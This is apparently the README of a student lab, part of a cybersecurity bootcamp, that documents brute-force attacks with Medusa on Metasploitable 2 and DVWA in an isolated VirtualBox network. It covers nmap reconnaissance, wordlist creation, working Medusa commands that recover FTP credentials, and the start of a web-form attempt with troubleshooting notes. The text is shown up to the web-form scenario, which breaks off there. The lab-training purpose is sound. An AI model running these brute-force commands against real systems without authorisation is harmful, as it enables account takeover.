🌐 **Languages:** [Português](README.md) | [English](README.en.md) | [Español](README.es.md)

# 🛡️ Cybersecurity Lab: Brute-Force Attack Simulation and Mitigations with Medusa

Hands-on project developed as part of the **Santander - Cybersecurity from Zero to Practice** bootcamp on the [DIO](https://dio.me) platform.

---

## ⚖️ Legal & Ethical Disclaimer

> **Notice:** All activities in this laboratory were conducted strictly within an isolated and controlled virtual environment (*Host-Only* network in VirtualBox) for educational and vulnerability analysis purposes only, in compliance with ethical hacking standards and applicable legislation (Brazilian Law No. 12,737/2012 - Computer Crimes).

---

## 🎯 Project Objectives

- Configure and operate a secure testing environment using VirtualBox.
- Gain hands-on understanding of brute-force and password-spraying attack mechanics.
- Utilize the **Medusa** tool on **Kali Linux** for security auditing across network services.
- Document technical procedures and evidence following industry standards.
- Propose defensive security controls (*Blue Team*) and multi-layered mitigation strategies.

---

## 🖥️ Environment Setup & Initial Reconnaissance

### Network Topology
| Virtual Machine | Operating System | Role / Function | IP Address |
| :--- | :--- | :--- | :--- |
| **Attacker** | Kali Linux | Test execution and security auditing | `192.168.56.102` |
| **Target** | Metasploitable 2 | Vulnerable services host | `192.168.56.101` |

Both virtual machines were configured in an isolated internal network in VirtualBox (*Host-Only Network*).

---

### Step 1: VirtualBox Environment Initialization
Starting and verifying both virtual machines running in the isolated network segment.



---

### Step 2: Target IP Identification
Checking the assigned IP address directly on the target machine console (Metasploitable 2):

```bash
ip a
```
> The identified IP address of the target machine was `192.168.56.101`.



---

### Step 3: Network Connectivity Test
Executing an ICMP echo request (ping) from the attacker machine (Kali Linux) to verify connectivity:

```bash
ping -c 4 192.168.56.101
```



---

### Step 4: Port & Service Enumeration (Nmap)
Targeted port scan to identify active service versions on relevant target ports:

```bash
nmap -sV -p 21,22,80,445,139 -n 192.168.56.101
```
- `-sV`: Detects running service versions.
- `-p 21,22,80,445,139`: Scans the specific ports under assessment (FTP, SSH, HTTP, and SMB).
- `-n`: Disables reverse DNS resolution to optimize scan speed in private networks.



---

## 📂 Scenario 1: Brute-Force Attack against FTP Service (Port 21)

Legacy FTP (*File Transfer Protocol*) transmits credentials in plain text. Combined with weak passwords and no account lockout mechanisms, it represents a critical intrusion vector.

---

### Step 1: Manual FTP Service Verification
Confirming that the FTP service on port 21 was active and accepting inbound network connections:

```bash
ftp 192.168.56.101
```



---

### Step 2: Custom Wordlist Generation
Generating targeted candidate lists for usernames and passwords:

```bash
# Username wordlist
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

# Password wordlist
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```



---

### Step 3: Wordlist Verification
Inspecting the generated wordlist files using the `cat` command:

```bash
cat users.txt
cat pass.txt
```



---

### Step 4: Automated Brute-Force Attack with Medusa
Running the automated brute-force attack against the FTP service:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 -f
```
**Parameters breakdown:**
- `-h 192.168.56.101`: Target host IP address.
- `-U users.txt`: File containing usernames to test.
- `-P pass.txt`: File containing passwords to test.
- `-M ftp`: Medusa module for the FTP protocol.
- `-t 6`: Runs 6 parallel threads to optimize scanning time.
- `-f`: Stops execution immediately upon finding the first valid credential pair (*stop on first hit*).



---

### Step 5: Credential Validation
Performing practical authentication on the FTP service using the discovered credentials (`msfadmin:msfadmin`):

```bash
ftp 192.168.56.101
```
> **Result:** Authorized access successfully granted to the target server's FTP shell.



---

## 📂 Scenario 2: Brute-Force Attack on Web Form (DVWA - Port 80)

Web authentication portals are common targets during security assessments. When lacking rate limiting, human verification challenges, or session tokens, they are susceptible to automated dictionary and brute-force attacks.

In this scenario, the **DVWA (Damn Vulnerable Web App)** hosted on the target machine was audited.

---

### Step 1: Accessing the Target Web Portal
Browsing to the target application's login URL from Kali Linux: `http://192.168.56.101/dvwa/login.php`.



---

### Step 2: Manual Attempt & HTTP Traffic Inspection (F12)
Inspecting form parameters and server response behavior using browser Developer Tools (**F12**):
1. Navigated to the **Network** tab.
2. Sent a manual login attempt with random credentials (`username: "teste"` and `password: "senha123"`).
3. Inspected the submitted parameters via HTTP **POST** under the **Request** submenu:
   - `username`: Target user field (`"teste"`).
   - `password`: Target password field (`"senha123"`).
   - `Login`: Submission button with static value `"Login"`.
4. Identified the server failure response: `Login failed` text accompanied by an immediate HTTP status `302 Found` redirect.



---

### Step 3: Web Application Wordlists Preparation
Creating and verifying candidate username and password lists:

```bash
# Wordlists creation
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

# Content verification
cat users.txt
cat pass.txt
```



---

### Step 4: Initial Medusa Test & False Positive Diagnosis
Executing an initial test with Medusa using the `-M http` module:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t 6
```

**Technical Diagnosis (False Positive):**
The Medusa `http` module is designed for HTTP Basic Authentication (HTTP 401 status). Because the web server responded with `200 OK` (the rendered login HTML page), Medusa discarded custom form parameters and interpreted all attempts as **successful**, producing multiple **False Positives**.



---

### Step 5: Web-Form Module Diagnostic (HTTP 302 Error)
Testing Medusa's dedicated HTML form module (`-M web-form`):

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M web-form -m FORM:"dvwa/login.php" -m FORM-DATA:"post?username=&password=&Login=Login" -m DENY-SIGNAL:"Login failed" -t 6
```

**Technical Diagnosis:**
The module returned `ERROR: ... error code 302`. The Medusa `web-form` module expects an immediate `200 OK` response body and does not follow immediate HTTP `302 Found` redirects, aborting execution before validating valid credentials.

